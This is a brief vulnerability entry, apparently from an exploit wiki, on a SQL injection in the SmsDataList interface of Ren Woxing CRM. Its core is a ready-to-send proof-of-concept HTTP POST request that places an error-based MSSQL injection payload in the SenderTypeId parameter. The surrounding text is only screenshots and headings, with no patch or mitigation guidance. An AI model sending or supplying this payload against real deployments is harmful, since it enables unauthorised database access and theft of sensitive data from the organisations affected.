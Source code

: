 # Ren Woxing CRM SmsDataList SQL injection vulnerability

## Vulnerability Description

The CRM SmsDataList interface has a SQL injection vulnerability. An attacker can execute any database statement to obtain sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ren Woxing CRM</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691823257291-6328f717-116f-4bc7-9f49-4bb4673487e1.png)

Verify POC

```php
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691823280317-687cb156-d2cf-4968-9095-891b429a60a2.png)